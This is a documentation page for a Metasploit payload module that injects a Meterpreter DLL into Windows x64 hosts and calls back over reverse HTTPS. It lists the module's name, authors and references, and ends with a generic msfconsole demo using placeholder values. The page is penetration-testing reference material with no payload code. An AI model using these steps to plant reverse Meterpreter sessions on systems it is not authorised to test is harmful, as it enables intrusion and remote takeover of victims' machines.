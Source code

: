 ## Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged x64). Tunnel communication over 
HTTPS (Windows x64 winhttp)


## Module Name
payload/windows/x64/meterpreter/reverse_winhttps

## Authors
* skape
* sf
* OJ Reeves


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter/reverse_winhttps
msf payload(reverse_winhttps) > show targets
   ... a list of targets ...
msf payload(reverse_winhttps) > set TARGET <target-id>
msf payload(reverse_winhttps) > show options
   ... show and set options ...
msf payload(reverse_winhttps) > run
```
    
    